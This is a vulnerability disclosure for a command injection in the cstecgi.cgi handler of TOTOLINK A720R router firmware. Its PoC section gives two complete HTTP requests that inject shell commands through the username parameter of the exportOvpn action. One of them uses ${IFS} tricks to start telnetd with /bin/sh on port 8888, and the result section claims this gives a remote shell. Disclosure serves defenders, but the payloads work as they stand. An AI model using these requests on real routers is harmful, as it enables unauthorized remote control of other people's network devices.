






# TOTOLINK Vulnerability

Vendor:TOTOLINK

Product:A720R

Version:A720R_Firmware(V4.1.5cu.470_B20200911)

Type:Remote Command Execution

Author:Jiaqian Peng,Huizhao Wang,Zuoguang Wang

Institution:pengjiaqian@iie.ac.cn,wanghuizhao@iie.ac.cn,wangzuoguang16@mails.ucas.ac.cn


## Vulnerability description

We found an Command Injection vulnerability  in TOTOLINK Technology router with firmware which was released recently, allows remote attackers to execute arbitrary OS commands from a crafted request.

**Remote Command Execution**

In `cstecgi.cgi` binary:

In `main` function,`QUERY_STRING` is directly passed by the attacker, so we can control the `QUERY_STRING` to attack the OS.

<div  align="center"></div>

Eventually, the initial input cause command injection.

<div  align="center"></div>

**Supplement**

in the program. In order to avoid such problems, we believe that the string content should be checked in the input extraction part.


## PoC

We set `QUERY_STRING` as **/cgi-bin/cstecgi.cgi?action=exportOvpn&type=user&username=;/bin/telnetd;** , and the router will excute it,such as:

```http
GET /cgi-bin/cstecgi.cgi?action=exportOvpn&type=user&username=;/bin/telnetd; HTTP/1.1
Host: 192.168.0.1
Accept: */*
Accept-Language: en
Connection: close
```

<div  align="center"></div>

We set `QUERY_STRING` as **/cgi-bin/cstecgi.cgi?action=exportOvpn&type=user&username=;telnetd${IFS}-l${IFS}/bin/sh${IFS}-p${IFS}8888${IFS}-b${IFS}0.0.0.0;** , and the router will excute it,such as:

```http
GET /cgi-bin/cstecgi.cgi?action=exportOvpn&type=user&username=;telnetd${IFS}-l${IFS}/bin/sh${IFS}-p${IFS}8888${IFS}-b${IFS}0.0.0.0; HTTP/1.1
Host: 192.168.0.1
Accept: */*
Accept-Language: en
Connection: close
```

<div  align="center"></div>


## Result

The target router has enabled the telnet service.

<div  align="center"></div>

Get a shell!

<div  align="center"></div>

